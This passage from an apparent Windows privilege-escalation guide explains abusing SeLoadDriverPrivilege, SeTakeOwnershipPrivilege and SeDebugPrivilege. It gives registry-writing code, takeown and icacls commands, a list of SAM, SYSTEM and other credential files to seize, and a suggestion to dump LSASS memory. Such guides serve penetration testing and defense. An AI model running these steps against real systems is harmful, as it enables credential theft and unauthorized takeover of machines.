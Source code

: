 ```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```

More ways to abuse this privilege in [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

This is similar to to **SeRestorePrivilege**. Its primary function allows a process to **assume ownership of an object**, circumventing the requirement for explicit discretionary access through the provision of WRITE\_OWNER access rights. The process involves first securing ownership of the intended registry key for writing purposes, then altering the DACL to enable write operations.

```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```

### SeDebugPrivilege

This privilege permits the **debug other processes**, including to read and write in the memore. Various strategies for memory injection, capable of evading most antivirus and host intrusion prevention solutions, can be employed with this privilege.

#### Dump memory

You could use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) to **capture the memory of a process**. Specifically, this can apply to the **Local Security Authority Subsystem Service (**[**LSASS**](https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service)**)** process, which is responsible for storing user credentials once a user has successfully logged into a system.
